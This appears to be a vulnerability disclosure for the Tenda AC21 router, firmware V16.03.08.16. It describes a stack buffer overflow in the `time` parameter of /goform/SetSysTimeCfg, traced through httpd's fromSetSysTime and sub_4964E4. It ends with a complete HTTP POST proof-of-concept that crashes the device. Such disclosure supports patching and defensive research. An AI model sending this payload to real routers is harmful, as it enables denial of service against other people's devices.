




**Affected Product**: Tenda AC21 Router

**Affected Firmware Versions**:  V16.03.08.16

**Vulnerability Type**: Buffer Overflow Vulnerability


------
### **Vulnerability Description**

In the latest firmware version V16.03.08.16 for the Tenda AC21 router, the `time` parameter of `/goform/SetSysTimeCfg` in the `/bin/httpd` binary contains a stack-based buffer overflow vulnerability that can lead to denial‑of‑service and potentially remote command execution.


---
### **Vulnerability Details**

In the httpd binary, the function corresponding to **`/goform/SetSysTimeCfg`** is **`fromSetSysTime`**.


In the `fromSetSysTime` function, if the input parameter `timeType` is set to `manual`, the `sub_4964E4` function will be called.


In `sub_4964E4`, after reading the `time` value, `sscanf` is called without maximum field widths, which can lead to a stack buffer overflow.



---
### **PoC**
```
POST /goform/SetSysTimeCfg HTTP/1.1
Host: 192.168.254.139
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 217
Origin: http://192.168.254.139
Connection: close
Priority: u=0

timeType=manual&timePeriod=&ntpServer=&timeZone=0%3A00&time=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-11-13%2002%3A13%3A58
```

By sending this poc, an attacker can achieve the effect of a denial-of-service(DOS) attack .


